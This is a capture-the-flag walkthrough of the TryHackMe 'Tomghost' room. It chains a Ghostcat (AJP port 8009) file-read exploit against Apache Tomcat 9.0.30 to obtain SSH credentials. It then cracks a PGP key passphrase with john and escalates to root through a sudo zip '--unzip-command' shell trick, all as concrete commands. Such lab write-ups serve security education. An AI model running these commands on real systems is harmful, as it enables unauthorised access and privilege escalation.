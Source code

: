 ```yaml
---
published: true
image: 'https://imgur.com/7DNKTEN.png'
title: Tomghost - TryHackMe Walkthrough
category: Writeup
author: F3dai
---
```

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to [https://tryhackme.com/](https://tryhackme.com/).

**URL:** [tomghost](https://tryhackme.com/room/tomghost)

**Difficulty:** Easy

**Author:** stuxnet

### Enumeration

We are given the IP 10.10.31.90. Run an nmap scan with the following command:

<pre>nmap -p- -A -o portscan 10.10.31.90</pre>

These are the open ports:

<pre>PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
</pre>

![nmap](https://imgur.com/XW4ayyE.png)

Here is port 8080 on my browser:

![8080](https://imgur.com/kdAPeyb.png)

This seems to just be the Apache installation index page.

I have never seen port **8009** open, so I will investigate this. 

**AJP** is a wire protocol. It an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. 

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access. 

I will be using this tool on github to exploit this vulnerability:

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

Let's download the raw code onto our local machine:

<pre>wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py</pre>

![wget](https://imgur.com/CJZL2Na.png)

We have the script ajpShooter.py.

This is the command to read a file:

<pre>python3 ajpShooter.py http://10.10.31.90:8080 8009 /WEB-INF/web.xml read</pre>

![read](https://imgur.com/j3oj3eg.png)

There are some credentials:

<pre>skyfuck:8********************s</pre>

We saw earlier that port 22 was open, let's try and ssh using the credentials we just discovered. The password seems to just be plaintext, I don't recognise any encryption. 

<pre>ssh skyfuck@10.10.31.90</pre>

![ssh](https://imgur.com/SfpNmCF.png)

We are successfully logged in as skyfuck.

The home directory has another user called merlin. We also have the user flag.

<pre>cd ..
ls
cd merlin
cat user.txt</pre>

![flag](https://imgur.com/Ngw5qJq.png)

### Privilege Escalation

I noticed a pgp file in skyfuck's home directory:

![pgp](https://imgur.com/kXqdDE9.png)

We also have tryhackme.asc which has a PGP PRIVATE KEY BLOCK:

![asc](https://imgur.com/vETDGxm.png)

I will transfer these files to my local machine so I can attempt to decrypt  the file.

<pre>scp skyfuck@10.10.31.90:/home/skyfuck/* .</pre>

scp is a way to transfer files across a network using ssh. Read more about this here:

[Secure Copy - ssh scp](https://www.ssh.com/ssh/scp/)

Here is a youtube video explaining how to crack a PGP Private Key Password.

[John the Ripper: How to Recover Your PGP Private Key Password](https://www.youtube.com/watch?v=DBpd9e4tJfg)

We will be converting the tryhackme.asc file using the tool gpg2john.

<pre>gpg2john tryhackme.asc > hash</pre>

This is what my hash file contains:

<pre>tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme &lt;stuxnet@tryhackme.com&gt;::tryhackme.asc</pre>

Now let's use john to crack this file. I used the rockyou.txt wordlist.

<pre>john --wordlist=/usr/share/wordlists/rockyou.txt hash</pre>

We have some results:

![results john](https://imgur.com/kuPdKLu.png)

Now that we have this key, let's go back to the ssh session and decrypt the pgp key. 

<pre>gpg --import tryhackme.asc
gpg --decrypt credential.pgp</pre>

![decrypt](https://imgur.com/LwOh5bw.png)

We have some credentials:

<pre>merlin:a*************************************************************j</pre>

Change the user and use those credentials:

<pre>su merlin</pre>

![su](https://imgur.com/a7xv8d4.png)

Check to see the users sudo rights:

<pre>sudo -l</pre>

![sudo l](https://imgur.com/idjo6X1.png)

We need to priv esc using the zip binary. I did some research on ZIP Privilege Escalation and found this article:

[ZIP exploitation](https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/)

So let's create a new file with touch:

<pre>touch f3dai.txt</pre>

Then exploit this using the following command:

<pre>sudo zip 1.zip f3dai.txt -T --unzip-command="sh -c /bin/bash"</pre>

![zip exploit](https://imgur.com/DHkbYYo.png)

We have spawned a root shell, and found the root flag.
